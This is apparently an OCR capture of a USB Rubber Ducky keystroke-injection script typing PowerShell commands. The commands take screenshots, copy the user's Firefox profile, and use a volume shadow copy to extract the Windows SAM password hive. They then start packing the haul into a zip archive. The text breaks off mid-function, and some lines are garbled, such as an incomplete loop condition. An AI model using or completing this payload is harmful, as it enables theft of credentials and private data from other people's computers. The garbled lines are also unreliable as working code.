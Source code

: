 ENTER
STRING $jpegName = (get-date).ToString('HHmmss')
ENTER
STRING $File = "$jpegSaveDir\$jpegName.bmp"
ENTER
STRING Add-Type -AssemblyName System.Windows.Forms
ENTER
STRING Add-type -AssemblyName System.Drawing
ENTER
STRING $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
ENTER
STRING $Width = $Screen.Width
ENTER
STRING $Height = $Screen.Height
ENTER
STRING $Left = $Screen.Left
ENTER
STRING $Top = $Screen.Top
ENTER
STRING $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
ENTER
STRING $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
ENTER
STRING $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
ENTER
STRING $bitmap.Save($File)
ENTER
STRING $x++  } while ($x -ne );
ENTER
STRING $fireSaveDir = New-Item $userDir'\Duck\FireFox-Profile' -ItemType Directory
ENTER
STRING $fireDir = (Get-ChildItem env:userprofile).value + '\AppData\Roaming\Mozilla\Firefox\Profiles'
ENTER
STRING $getFire = Get-Item -Path $fireDir -Exclude extensions 
ENTER
STRING Copy-Item $getFire $fireSaveDir -Recurse 
ENTER 
STRING Start-Sleep -s 10 
ENTER
STRING $createShadow = (gwmi -List Win32_ShadowCopy).Create('C:\', 'ClientAccessible')
ENTER
STRING $shadow = gwmi Win32_ShadowCopy | ? { $_.ID -eq $createShadow.ShadowID } 
ENTER
STRING $addSlash  = $shadow.DeviceObject + '\' 
ENTER
STRING cmd /c mklink C:\shadowcopy $addSlash
ENTER
STRING Copy-Item 'C:\shadowcopy\Windows\System32\config\SAM' $fileSaveDir
ENTER
STRING Remove-Item -recurse -force 'C:\shadowcopy'
ENTER
STRING $Report >> $fileSaveDir'/ComputerInfo.html' 
ENTER
STRING function copy-ToZip($fileSaveDir){ 
ENTER 
STRING $srcdir = $fileSaveDir 
ENTER
STRING $zipFile = '\Report.zip'
ENTER
STRING if(-not (test-path($zipFile))) { 
ENTER
STRING set-content $zipFile ("PK" + [char]5 + [char]6 + ("$([char]0)" * 18))
ENTER 